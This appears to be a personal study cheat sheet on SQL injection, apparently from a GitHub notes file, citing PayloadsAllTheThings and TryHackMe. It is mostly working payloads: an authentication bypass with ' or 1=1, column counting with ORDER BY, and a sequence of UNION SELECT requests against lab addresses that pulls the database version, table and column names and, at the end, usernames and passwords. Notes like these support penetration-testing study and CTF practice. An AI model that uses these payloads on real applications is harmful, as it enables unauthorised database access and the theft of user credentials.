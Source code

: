 ### SQLI

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

fast check 

```
include single quote '
```

authenticatino bypass

```
' or 1=1;#
' or 1=1 LIMIT 1;#
```

More complecated quries:

1. column number enumeration

```
http://10.11.0.22/debug.php?id=1 order by 1
http://10.11.0.22/debug.php?id=1 order by 2
http://10.11.0.22/debug.php?id=1 order by 3

ERROR! --> 3 columns
```
2. union

each select must return the same number of collumns 

```
http://192.168.152.52/debug.php?id=1%20union%20select%20*%20from%20users;
http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version
http://10.11.0.22/debug.php?id=1 union all select 1, 2, user()
SELECT database() --> get db_name

DB dumping:

1. http://10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables --> find table_name
2. http://10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users' --> find columns name 
3. http://10.11.0.22/debug.php?id=1 union all select 1, username, password from users --> get data \(^-^)/

from tryhackme group_concat() to get all in one column and don't forget to target by database() name

0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'` -- take sqli_one from database()



u can create a table not to get lost:

version: 
database(table_schema):
table_name:
column_name:
users:
password:
etc.
```
